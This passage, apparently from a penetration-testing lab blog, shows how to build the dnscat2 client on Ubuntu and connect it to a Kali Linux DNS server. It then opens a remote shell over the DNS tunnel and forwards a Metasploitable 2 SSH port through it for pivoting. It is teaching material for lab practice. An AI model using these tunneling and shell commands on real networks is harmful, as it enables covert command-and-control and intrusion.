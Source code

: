 In the Ubuntu machine, we will install dnscat2 using git clone. Here we will have to install the dependencies manually to get the tool started.

```
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/
cd client/
make
```

![](https://i0.wp.com/1.bp.blogspot.com/-tjIcaw5-9CY/YBhHrAurDpI/AAAAAAAAtUU/4E-otD73W-w2wKttU-AWaU2d9NcVHeudgCLcBGAsYHQ/s16000/102.png?w=640&ssl=1)

Now let’s establish a connection between the Kali Linux and Ubuntu.

```
./dnscat --dns=server=192.168.1.2,port=53
```

![](https://i0.wp.com/1.bp.blogspot.com/-ZEJCm4gXCmA/YBhHxWRsraI/AAAAAAAAtUc/DtdtaOa8uqU9EQ7tfoR-rxq8OqWaPxgqwCLcBGAsYHQ/s16000/103.1.png?w=640&ssl=1)

Once the connection is successfully established, a session will be created on the Kali Linux’s end. Now let us check the sessions that are available and interact with them and then send in a request to create a shell. Once the request is accepted a new window will open and the session 2.

```
session
session -i 1
shell
```

![](https://i0.wp.com/1.bp.blogspot.com/-DSCWwQMrFic/YBhH3jqoqzI/AAAAAAAAtUg/T7TSx6afQL47o46p1i9zbEmD_XZSHIzPgCLcBGAsYHQ/s16000/103.png?w=640&ssl=1)

Using the second session, you now have access to the Ubuntu machine. So now let’s check the IP address of the client one machine. Here we see that Ubuntu has two NIC cards installed within it.

```
session -i 2
ifconfig
```

![](https://i0.wp.com/1.bp.blogspot.com/-PmOrzt7ayCI/YBhH9IYry5I/AAAAAAAAtUk/GC5ZGOc4yHAgR5AUkN13Ai-aeKvpMUHeQCLcBGAsYHQ/s16000/104.png?w=640&ssl=1)

Now we will connect the Metasploitable 2 port 22 to the port 8888 to create a DNS tunnel between them using the shell.

```
listen 127.0.0.1:8888 192.168.226.129:22
```

![](https://i0.wp.com/1.bp.blogspot.com/-AjPfEm3Enag/YBhIDNLYIHI/AAAAAAAAtUo/fuOmXyVf0ZQuPQ06EtWqgAXRliQlNPTMACLcBGAsYHQ/s16000/105.png?w=640&ssl=1)

Open a new tab in the Kali Linux machine and login to the Metasploitable 2 machine with its credentials and now you will be able to communicate with Metasploitable 2 using the Kali Linux.

```
ssh msfadmin@127.0.0.1 -p 8888
```
